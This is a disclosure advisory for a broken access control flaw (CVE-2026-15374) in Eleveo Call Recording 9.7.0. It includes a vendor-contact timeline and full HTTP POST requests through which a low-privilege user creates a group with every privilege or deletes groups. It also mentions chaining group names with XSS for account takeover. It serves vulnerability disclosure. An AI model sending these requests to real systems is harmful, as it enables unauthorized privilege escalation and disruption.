






# Eleveo Call Recording Software 9.7.0 Group Interface roleAddAction.do Improper Authorization

> - https://vuldb.com/vuln/377441
> - https://vuldb.com/submit/797458
> - https://www.cve.org/CVERecord?id=CVE-2026-15374

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 10/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

Multiple Broken Access Control vulnerabilities in Eleveo Call Recording 9.7.0 allow low-privileged authenticated users, including those without “Users and Roles” privilege, to create groups via /callrec/roleAddAction.do endpoint and delete groups via /callrec/roleRemoveAction.do endpoint. The backend does not properly enforce role-based access control, allowing unauthorized creation and deletion of groups.

## Implications

- Unauthorized group creation may allow attackers to create groups with full system privileges, which can be leveraged to escalate access or manipulate system configurations. 
- Chained attacks with Cross-Site Scripting: Groups created by low-privilege users can contain malicious JavaScript in their names, potentially allowing account takeover when other users access the group interface. 
- Unauthorized group deletion can disrupt business processes and remove critical access controls.

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as a low-privilege user with no “Users and Roles” privilege



2. Extract **JSESSIONID**, **DWRSESSIONID**, and **TOKEN**





3. Send the following request after filling the tokens and group info

```http
POST /callrec/roleAddAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=<DWRSESSIONID>; JSESSIONID=<JSESSIONID>
Content-Length: 536
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/roleAddAction.do
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=<TOKEN>&dispatch=add&viewRoleId=1&name=BAC+Group&roleParentId=1&number=&actionId=5&actionId=9&actionId=12&actionId=14&actionId=8&actionId=3&actionId=7&actionId=10&actionId=4&actionId=13&actionId=6&actionId=15&actionId=2&actionId=1&actionId=16&viewId=5%7C9%7C12%7C14%7C8%7C3%7C7%7C10%7C4%7C13%7C6%7C15%7C2%7C1%7C16%7C&description=&value%28filter_1%29=-1&value%28conj_1%29=END
```




4. Observe the group has been created successfully



5. An unauthorized user can also delete a group by sending the following request with the group ID

```http
POST /callrec/roleRemoveAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=<DWRSESSIONID>; JSESSIONID=<JSESSIONID>
Content-Length: 77
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/group.jsp?org.apache.struts.taglib.html.TOKEN=5b6c2787b65341438ed9ce87fc63bafe&viewRoleId=6
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=<TOKEN>&roleId=11
```

